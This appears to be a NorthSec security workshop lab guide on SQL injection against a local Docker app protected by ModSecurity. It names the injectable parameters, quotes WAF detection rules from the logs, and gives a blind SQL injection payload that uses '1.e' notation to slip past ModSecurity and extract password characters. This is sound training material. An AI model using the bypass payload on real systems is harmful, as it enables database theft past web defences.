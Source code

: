 # SQL Syntax Lab

## Launching the instance

```
$ cd 03-sqli
$ docker-compose up
```

Open [http://localhost](http://localhost) in a browser to confirm that everything is running.


Initialize the database by fetching `db_reset.php`.

![](images/lab3_reset.png)


[Live instance (only for NorthSec)](http://nsec2022.xss.lol/){ .md-button .md-button--primary target=_blank}

## Finding the SQL injections

There are two SQL injection vulnerabilities in the applications.

??? success "Answer"

    - `genre` parameter from the `index.php` page.

    - `id` parameter from the `movie_detail.php` page.


    Detection can be done
    
    ```
    GET /?genre=actio'%20'n HTTP/1.1
    Host: localhost
    [...]
    ```

## ModSecurity

As soon as you will test parameter with SQL keyword, modsecurity return a Forbidden page.

![](images/lab3_forbidden.png)

Does the `union` and `select` are systematically blocked?

??? success "Answer"

    Union and select are english word that are too common to always be blocked.

    You can confirm this behavior by requesting `index.php?genre=union`
    
    ModSecurity is a combination of RegEx and analysis by libinjection. Looking at the log you will be able to see which rule is triggered.


## Log Troubleshooting

The log are pretty verbose because they attach complete request.

Here is a Regex rule that matched:
```
ModSecurity: Warning. Pattern match \"(?i:(?:[\\\\\\\\\"'`](?:;?\\\\\\\\\\\\\\\\s*?(?:having|select|union)\\\\\\\\\\\\\\\\b\\\\\\\\\\\\\\\\s*?[^\\\\\\\\\\\\\\\\s]|\\\\\\\\\\\\\\\\s*?!\\\\\\\\\\\\\\\\s*?[\\\\\\\\\"'`\\\\\\\\\\\\\\\\w])|(?:c(?:onnection_id|urrent_user)|database)\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?|u(?:nion(?:[\\\\\\\\\\\\\\\\w(\\\\\\\\\\\\\\\\s]*?select| select @)|ser\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?)|s(?:chema\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?|elect.*?\\\\\\\\\\\\\\\\w?user\\\\\\\\\\\\\\\\()|in ...\" at ARGS:genre. 
[file \"/etc/modsecurity.d/owasp-crs/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf\"] 
[line \"183\"] [id \"942190\"]
```

Here libinjection
```
[id \"942100\"] 
[msg \"SQL Injection Attack Detected via libinjection\"] 
[data \"Matched Data: s&(s) found within ARGS:genre: union' or ('')='\"] 
[severity \"CRITICAL\"]
```

Can you use the scientific notation to confuse modsecurity? If you want the solution, read the next section.

## Exploitation

Here is the general syntax necessary to exfiltrate varchar values from the database. 

=== ":octicons-check-circle-fill-16: Obfuscated query"

    With the `1.e` notation expression that are ignored by the DBMS.

    ```sql
    or 1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2
    ```

=== ":octicons-skip-16: Actual query"

    This is how the DBMS will interpret the query.

    ```sql
    or (ascii (substring((select password from users limit 1,1) ,1 ,1 ))) = 70 or'1'='2
    ```

> With this SQL syntax, we are targeting the field `password` from the table `users`. The function substring is used to extract one character at the time and comparing it to an ascii value (`70` in the example).

## Scripting

Once you have working request that is producing an oracle (binary response based on the matching content). It is possible to script an attack to extract the complete content of any database tables.

